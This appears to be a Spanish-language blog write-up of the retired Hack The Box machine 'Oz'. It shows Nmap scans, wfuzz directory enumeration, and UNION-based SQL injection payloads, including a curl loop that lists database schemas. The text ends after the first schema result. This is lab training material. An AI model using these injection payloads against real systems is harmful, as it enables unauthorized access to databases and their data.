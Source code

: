 ```yaml
---
layout: post
title:  "Maquina  Retirada Oz de Hack The Box (Necesario VIP)"
categories: "HTB"
description: En esta ocasion empezaremos con el Writeup de la maquina de HackTheBox llamada OZ
tags: HTB, SQLI, SSTI(Server Side Template Injection), Port Knocking, Portainer, Dockers, Maquinas Retiradas, Writeup
---
```


# OZ ~ Hack The Box

Realizamos el Primer escaneo con Nmap
```bash
$" nmap -p- --open -sS --min-rate 4000 -vvv -n -Pn -oG allports 10.10.10.96       "
``` 
Procedemos con el siguiente escaneo de Nmap
```bash
PORT     STATE SERVICE VERSION
80/tcp   open  http    Werkzeug httpd 0.14.1 (Python 2.7.14)
|_http-server-header: Werkzeug/0.14.1 Python/2.7.14
|_http-title: OZ webapi
|_http-trane-info: Problem with XML parsing of /evox/about
8080/tcp open  http    Werkzeug httpd 0.14.1 (Python 2.7.14)
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Werkzeug/0.14.1 Python/2.7.14
| http-title: GBR Support - Login
|_Requested resource was http://10.10.10.96:8080/login
|_http-trane-info: Problem with XML parsing of /evox/about
```
Procedemos con la herramienta `Wfuzz` a enumerar rutas y directorios
```bash
# wfuzz -c --hc=404 -w /usr/share/wordlist/rockyou.txt http://10.10.10.96/FUZZ
"/users/"
```
Probamos a seguir enumerando con la herramienta `Wfuzz` por la ruta `/users/FUZZ` y nos da un fallo de `Internal Server Error` cuando llega a la `'`
Sera vulnerable a una `Injeccion SQL`?
```bash
Probamos a hacer un "' order by 1-- -" y nos responde un "NULL"
```
Con esto verificamos que es vulnerable a SQLI y procedemos a realizar las siguientes consultas SQLI:
```mysql
Consulta 1:
"' union select database()-- -"
10.10.10.96/users/'%20union%20select%20database()--%20-			  RESPUESTA DEL SERVIDOR:	“ozdb” Base de Datos en USO

Consulta 2:
"' union select user()-- -"
10.10.10.96/users/'%20union%20select%20user()--%20-						RESPUESTA DEL SERVIDOR: "dorthi@10.100.10.6"   un contenedor ?? de donde es esta IP ¿¿??

Consulta 3:
usamos Curl para hacer las peticiones: 
"' union select schema_name from information_schema.shemata limit 0,1-- -" e iteramos sobre el valor de 0 con un bucle para $i y sacar todas los nombres de las bases de datos
# for i in $(seq 0 5); do curl -s -X GET "http://10.10.10.96/users/'%20union%20select%20schema_name%20from%20information_schema.schemata%20limit%20$i,%201--%20-"  | jq ; done | tr '{}' ' '  
 
  "username": "information_schema"
```